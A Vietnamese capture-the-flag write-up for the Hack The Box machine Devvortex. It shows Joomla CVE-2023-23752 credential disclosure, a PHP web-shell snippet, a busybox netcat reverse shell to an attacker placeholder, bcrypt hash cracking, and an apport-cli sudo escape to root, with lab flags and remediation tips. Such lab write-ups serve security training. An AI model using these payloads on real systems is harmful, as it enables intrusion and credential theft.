




> [!NOTE]
> Mức độ: Dễ 
> Mục tiêu: Linux
> Url: https://app.hackthebox.com/machines/Devvortex
> Mô tả: Devvortex là một máy Linux ở mức độ khó dễ, chạy hệ quản trị nội dung (CMS) Joomla – vốn tồn tại lỗ hổng cho phép tiết lộ thông tin. Bằng cách truy cập vào tệp cấu hình của dịch vụ, người ta có thể tìm thấy thông tin đăng nhập ở dạng văn bản thuần túy (plaintext), từ đó giành được quyền truy cập quản trị vào hệ thống Joomla này. Với quyền quản trị, kẻ tấn công có thể sửa đổi mẫu giao diện (template) của Joomla để chèn mã PHP độc hại, qua đó chiếm được quyền truy cập shell. Sau khi có shell và liệt kê nội dung cơ sở dữ liệu, kẻ tấn công thu thập được các thông tin đăng nhập đã băm (hashed credentials); sau khi giải mã các thông tin này, chúng có thể truy cập vào máy thông qua SSH. Quá trình thu thập thông tin sau khi xâm nhập cho thấy người dùng hiện tại được phép chạy `apport-cli` với quyền root; tận dụng điều này, kẻ tấn công có thể chiếm được quyền root shell trên hệ thống.

# Recon

## Port scan 

> Quét các cổng dịch vụ đang mở phát hiện ssh, http 

```bash
└─$ nmap -sSVC devvortex.htb         
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-19 07:17 -0400
Nmap scan report for devvortex.htb (10.129.229.146)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: DevVortex
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 642.31 seconds
```

## Web 

> Truy cập trang chủ đây chỉ là 1 trang tĩnh không có thông tin đáng chú ý 

> Liệt kê các tên miền phụ phát hiện tên miền `dev.devvortex.htb`

```
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://devvortex.htb/ -H "Host: FUZZ.devvortex.htb" -fs 154

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://devvortex.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.devvortex.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 2881ms]
:: Progress: [4989/4989] :: Job [1/1] :: 80 req/sec :: Duration: [0:00:30] :: Errors: 0 ::
```

> Truy cập domain phụ, web là phiên bản thửu nghiệm nhiều chỗ bị lỗi nhưng cũng không có thông tin 

> Liệt kê thư mục ẩn phát hiện nhiều thư mục đáng chú ý trong đó có `/administrator/`

```
└─$ feroxbuster -u http://dev.devvortex.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -t 100 -d 1 -x php,html,txt,xml,sh -C 404,500 
                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://dev.devvortex.htb/
 🚩  In-Scope Url          │ dev.devvortex.htb
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 💢  Status Code Filters   │ [404, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt, xml, sh]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 1
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        7l       10w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET       69l      208w     3653c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        1l        3w       16c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       12w      178c http://dev.devvortex.htb/images => http://dev.devvortex.htb/images/
301      GET        7l       12w      178c http://dev.devvortex.htb/cache => http://dev.devvortex.htb/cache/
301      GET        7l       12w      178c http://dev.devvortex.htb/templates => http://dev.devvortex.htb/templates/
301      GET        7l       12w      178c http://dev.devvortex.htb/modules => http://dev.devvortex.htb/modules/
301      GET        7l       12w      178c http://dev.devvortex.htb/language => http://dev.devvortex.htb/language/
301      GET        7l       12w      178c http://dev.devvortex.htb/media => http://dev.devvortex.htb/media/
301      GET        7l       12w      178c http://dev.devvortex.htb/includes => http://dev.devvortex.htb/includes/
301      GET        7l       12w      178c http://dev.devvortex.htb/tmp => http://dev.devvortex.htb/tmp/
301      GET        7l       12w      178c http://dev.devvortex.htb/plugins => http://dev.devvortex.htb/plugins/
301      GET        7l       12w      178c http://dev.devvortex.htb/administrator => http://dev.devvortex.htb/administrator/
301      GET        7l       12w      178c http://dev.devvortex.htb/components => http://dev.devvortex.htb/components/
301      GET        7l       12w      178c http://dev.devvortex.htb/libraries => http://dev.devvortex.htb/libraries/
301      GET        7l       12w      178c http://dev.devvortex.htb/api => http://dev.devvortex.htb/api/
```

> Truy cập `/administrator` phát hiện dịch vụ CMS Joomla 

> Truy cập `README.txt` phát hiện được phiên bản của Joomla là Joomla 4.2-dev
> Phiên bản này tồn tại lỗ hổng kiểm soát truy cập, có thể truy cập các endpoint mà không cần xác thực 



# Exploit

## Khai thác lỗ hổng web 

> Lỗ hổng CVE-2023-23752
> Lỗ hổng này cho phép truy cập các enpoint mà không cần xác thực qua tham số trong truy vấn `public` được bao gồm (có thể cung cấp giá trị hoặc không đều lấy được dữ liệu)
> https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html
> https://www.vulncheck.com/blog/joomla-for-rce
> https://cyberthint.io/joomla-unauthorized-access-vulnerability-cve-2023-23752/
> Lỗ hổng này được vá vào ngày 16/02/2023 
> Truy cập reposity phát hiện commit được dùng để fix lỗi này 
> https://github.com/joomla/joomla-cms/commit/ac2658e7981378f9e88dca5a1673c5ed28a0d5b7

> Commit đã cập nhật thêm logic loại bỏ tham số truy vấn public trong file `ApiRouter.php`



> File `ApiApplication.php` chứa logic xử lý tham số public nếu có tham số `public` sẽ không báo lỗi xác thực 



> Truy cập endpoint chứa thông tin cấu hình `http://dev.devvortex.htb/api/index.php/v1/config/application?public=test` sẽ lấy được thông tin xác thực `lewis:P4ntherg0t1n5r3c0n##` 

> Sau khi xác thuwcj, có thể chỉnh sửa các file php trong template để thwucj thi mã 

```php
 if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
```



> Thực thi mã bằng cách cung cấp giá trị tham số truy vấn `cmd`

```
busybox nc IP_ATTACKER PORT -e bash
```

> Mở cổng lắng nghe sẽ truy cập được hệ thống

```
└─$ nc -lnvp 4444                    
listening on [any] 4444 ...
connect to [10.10.15.211] from (UNKNOWN) [10.129.229.146] 49622
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
```

> Nâng cấp shell 
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ export TERM=xterm
<vvortex.htb/templates/cassiopeia$ export TERM=xterm         
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ ^Z
└─$ stty raw -echo; fg
```
# Privelege Escalation

## Leo thang lên logan 
> Dùng thông tin xác thực `lewis:P4ntherg0t1n5r3c0n##` có thể truy cập database từ đó lấy được hashpass của người dùng logan 

```mysql
www-data@devvortex:~/dev.devvortex.htb$ mysql --host=localhost -u lewis -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 93203
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.01 sec)

mysql> use joomla
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
| sd4fg_assets                  |
| sd4fg_associations            |
| sd4fg_banner_clients          |
| sd4fg_banner_tracks           |
| sd4fg_banners                 |
| sd4fg_categories              |
| sd4fg_contact_details         |
| sd4fg_content                 |
| sd4fg_content_frontpage       |
| sd4fg_content_rating          |
| sd4fg_content_types           |
| sd4fg_contentitem_tag_map     |
| sd4fg_extensions              |
| sd4fg_fields                  |
| sd4fg_fields_categories       |
| sd4fg_fields_groups           |
| sd4fg_fields_values           |
| sd4fg_finder_filters          |
| sd4fg_finder_links            |
| sd4fg_finder_links_terms      |
| sd4fg_finder_logging          |
| sd4fg_finder_taxonomy         |
| sd4fg_finder_taxonomy_map     |
| sd4fg_finder_terms            |
| sd4fg_finder_terms_common     |
| sd4fg_finder_tokens           |
| sd4fg_finder_tokens_aggregate |
| sd4fg_finder_types            |
| sd4fg_history                 |
| sd4fg_languages               |
| sd4fg_mail_templates          |
| sd4fg_menu                    |
| sd4fg_menu_types              |
| sd4fg_messages                |
| sd4fg_messages_cfg            |
| sd4fg_modules                 |
| sd4fg_modules_menu            |
| sd4fg_newsfeeds               |
| sd4fg_overrider               |
| sd4fg_postinstall_messages    |
| sd4fg_privacy_consents        |
| sd4fg_privacy_requests        |
| sd4fg_redirect_links          |
| sd4fg_scheduler_tasks         |
| sd4fg_schemas                 |
| sd4fg_session                 |
| sd4fg_tags                    |
| sd4fg_template_overrides      |
| sd4fg_template_styles         |
| sd4fg_ucm_base                |
| sd4fg_ucm_content             |
| sd4fg_update_sites            |
| sd4fg_update_sites_extensions |
| sd4fg_updates                 |
| sd4fg_user_keys               |
| sd4fg_user_mfa                |
| sd4fg_user_notes              |
| sd4fg_user_profiles           |
| sd4fg_user_usergroup_map      |
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
71 rows in set (0.00 sec)

mysql> show columns from sd4fg_users;
+---------------+---------------+------+-----+---------+----------------+
| Field         | Type          | Null | Key | Default | Extra          |
+---------------+---------------+------+-----+---------+----------------+
| id            | int           | NO   | PRI | NULL    | auto_increment |
| name          | varchar(400)  | NO   | MUL |         |                |
| username      | varchar(150)  | NO   | UNI |         |                |
| email         | varchar(100)  | NO   | MUL |         |                |
| password      | varchar(100)  | NO   |     |         |                |
| block         | tinyint       | NO   | MUL | 0       |                |
| sendEmail     | tinyint       | YES  |     | 0       |                |
| registerDate  | datetime      | NO   |     | NULL    |                |
| lastvisitDate | datetime      | YES  |     | NULL    |                |
| activation    | varchar(100)  | NO   |     |         |                |
| params        | text          | NO   |     | NULL    |                |
| lastResetTime | datetime      | YES  |     | NULL    |                |
| resetCount    | int           | NO   |     | 0       |                |
| otpKey        | varchar(1000) | NO   |     |         |                |
| otep          | varchar(1000) | NO   |     |         |                |
| requireReset  | tinyint       | NO   |     | 0       |                |
| authProvider  | varchar(100)  | NO   |     |         |                |
+---------------+---------------+------+-----+---------+----------------+
17 rows in set (0.00 sec)

mysql> select * from sd4fg_users \G;
*************************** 1. row ***************************
           id: 649
         name: lewis
     username: lewis
        email: lewis@devvortex.htb
     password: $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
        block: 0
    sendEmail: 1
 registerDate: 2023-09-25 16:44:24
lastvisitDate: 2026-10-19 11:44:23
   activation: 0
       params: 
lastResetTime: NULL
   resetCount: 0
       otpKey: 
         otep: 
 requireReset: 0
 authProvider: 
*************************** 2. row ***************************
           id: 650
         name: logan paul
     username: logan
        email: logan@devvortex.htb
     password: $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
        block: 0
    sendEmail: 0
 registerDate: 2023-09-26 19:15:42
lastvisitDate: NULL
   activation: 
       params: {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"}
lastResetTime: NULL
   resetCount: 0
       otpKey: 
         otep: 
 requireReset: 0
 authProvider: 
2 rows in set (0.00 sec)

ERROR: 
No query specified
```

> Crack hash thu được mật khẩu của logan 
> `tequieromucho`

```
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)     
1g 0:00:00:12 DONE (2026-10-19 08:25) 0.07993g/s 112.2p/s 112.2c/s 112.2C/s kelvin..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

> `logan` tái sử dụng mật khẩu nên có thể truy cập hệ thống với vai trò `logan` và lấy được user flag

```
40823d8b9e804c66f608798ba08a7f8e
```

## Leo thang lên root 

> Liệt kê lệnh có thể chạy với sudo có thể chạy apport-cli với quyền mọi người dùng mà không cần mật khẩu 

```
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

> Có thể leo thang qua `apport-cli` 

```
sudo /usr/bin/apport-cli -f
1
2
!/bin/bash 
```

> Lấy được root flag 

```
15fe1b13cf628eac4c750ff8fa4593a3
```

# Kết luận 

> [!NOTE]
> - Khắc phục lỗ hổng:
> - Cập nhật phiên bản Joomla CMS lên phiên bản mới 
> - Tối thiểu hóa quyền lệnh `apport-cli`